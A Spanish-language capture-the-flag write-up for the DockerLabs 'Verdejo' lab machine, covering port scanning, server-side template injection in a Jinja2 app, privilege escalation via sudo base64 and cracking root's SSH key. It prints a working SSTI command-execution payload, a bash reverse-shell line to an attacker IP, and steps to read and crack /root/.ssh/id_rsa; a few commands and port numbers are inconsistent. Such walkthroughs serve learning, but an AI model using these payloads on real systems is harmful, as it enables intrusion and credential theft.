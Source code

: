 ![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/4defada3-ca7d-445a-9404-245d4df6a1d6)# [Verdejo](https://dockerlabs.es/)

## Despliegue

Primero desplegamos la máquina con ```bash auto_deploy.sh verdejo.tar``` (si no sabes en la página de DockerLabs ahí un pdf que lo explica).
<br>
<br>

## Reconocimiento

Una vez desplegada comprobamos que tenemos conectividad con ```ping -c 1 172.17.0.2``` 
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/af4d0189-b640-4576-aca6-3c02c75c9434)
<br>
`-c 1` ⮞ solo lo repite una vez<br>
<br>
Ahora vamos con el reconocimiento de nmap ```nmap -p- --open --min-rate 5000 -sS -vvv -n -Pn 172.17.0.2 -oG allPorts``` <br>
`-p-` ⮞ aplicar reconocimiento a todos los puertos <br>
`--open` ⮞ solo a los que esten abiertos <br>
`--min-rate 5000` ⮞ para enviar paquetes más rápido <br> 
`-sS` ⮞ para descubrir puertos de manera silenciosa y rápida <br> 
`-vvv` ⮞ conforme descubre un puerto nos lo muestra por pantalla <br> 
`-n` ⮞ no aplica la resolución DNS (tarda mucho en el caso de que no pongamos dicho parámetro)<br> 
`-Pn` ⮞ ignora si esta activa o no la IP<br> 
`-oG` ⮞ exportamos el resultado en formato grepeable (para extraer mejor los datos con herramientas como grep, awk)
<br>

Podemos ver los reultados en el archivo grepeable haciendo ```cat allPorts```, observamos que tan solo está abierto el puerto **80**, **22**, **8089**
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/0216d68c-23a3-4c54-adec-7ee750f9362b)

<br>
<br>

## Página Web (Puerto 80)

Al ver que está abierto el puerto 80 nos dirigimos al Navegador Web e introducimos la dirección IP como URL. Nos encontramos con la pagina por defecto de Apache2. Si intentamos hacer fuzzing no tendremos resultados.

<br>
<br>

## Página Web (Puerto 8089)

Al no tener exito en el puerto 80, probamos a intentar acceder al puerto **8089** de la siguiente forma: `172.17.0.2:8090`. Se puede observar un recuadro para poner cosas.  
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/3b7a51a4-0d27-438a-9213-e131dbfc6de2)

<br>

Lo primero que se me ocurre es ver si es vulnerable a `SSTI`, una manera de comprobarlo es poniendo lo suiguiente `{{7*7}}`:
<br>

![image](https://github.com/TerrorAterrador/WriteUps/assets/146730674/818083c0-b051-47d7-ab90-2a7d84d4273b)

<br>

Como observamos es vulnerable a SSTI por lo que deberíamos hacer ahora es buscar un payload el cual nos permita ejecutar comando de forma remota (RCE), por ejemplo en este [repositorio](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md#jinja2---basic-injection) encontramos un monton de payloads pero el que nos interesa a nosotros es el de **Jinja2** que sería algo así: <br>

`{{ self.__init__.__globals__.__builtins__.__import__('os').popen('id').read() }}` 
<br> 

Al introducir lo anterior comprobamos que nos responde con lo siguiente: 
<br>

![alt text](image-5.png)
<br>

Por lo que ahora nos mandaríamos una revshell, este parte se puede hacer de muchas formas. Una de ellas sería ponernos en escucha con netcat, escribiendo en nuestra terminal `nc -nlvp 443`, y despues e el payload en vez de poner el comando `id`, nos mandaremos una revshell poniendo lo siguiente: <br>

`{{ self.__init__.__globals__.__builtins__.__import__('os').popen('bash -c \'bash -i >& /dev/tcp/172.17.0.1/443 0>&1\'').read() }}` 

<br>

Es importante escapar las comillas simples ya que si no nos dará error. Una vez mandada la revshell podemos ver que todo ha ido bien: 
<br>

![alt text](image-6.png)

<br>
<br>

## Escala de Privilegios

Antes de empezar a probar como escalar privlegios haremos un sencillo tratamiento de la tty poniendo en orden lo suiguiente: <br>
`script /dev/null -c bash` <br>
`Pulsamos CTRL+Z` <br>
`stty raw -echo; fg` <br>
`reset xterm` <br>
`export SHELL=bash && export TERM=xterm` <br>

<br>

Una vez hecho el Tratamiento de la tty, podemos comenzar con la escala escribimos `sudo -l` podemos ver
que podemos ejecutar base64 siendo root sin proporcionar contraseña. <br>
`-l` ⮞ listar comandos que podemos ejecutar como sudo <br>

<br>

![alt text](image-7.png)

<br>

Entonces mirando en [GTFOBins](https://gtfobins.github.io/) podemos ver que nos permite File Read poniendo lo siguiente -> `sudo base64 "file_to_read" | base64 --decode`. Entonces como recordamos que tiene el puerto 22 abierto es decir el ssh, podemos pobrar a leer la id_rsa del root que sería de la siguiente forma -> `sudo -u root /root/.ssh/id_rsa | base64 --decode`, por lo que visualizariamos la id_rsa del root por lo que nos la copiamos en un archivo en nuestro directorio de trabajo.

<br>
<br>

## JhonTheRipper

Una vez que tenemos la id_rsa si probamos a intentar logear como root a través del ssh de la siguiente forma -> `ssh -i id_rsa root@172.17.0.2`, nos pedirá una passphare la cual no tenemos por lo que pasaremos a crackear con JhonTheRipper. <br>

En primer lugar sacamos el hash de la id_rsa de la siguiente forma `ssh2john id_rsa > hash`, una vez que tenemos el hash pasamos a crackearlo para intentar sacar la passphare, lo haremos de la siguiente forma -> `john hash --wordlist=/usr/share/wordlist/rockyou.txt` y nos mostraría algo tal que así:

<br>

![alt text](image.png)

<br>

Una vez que conocemos la passphare probamos a auntenticarnos como lo intentamos antes -> `ssh -i id_rsa root@172.17.0.2`, y despues introducimos la passphare y listo ya somos root!.

<br>

![alt text](image-1.png)
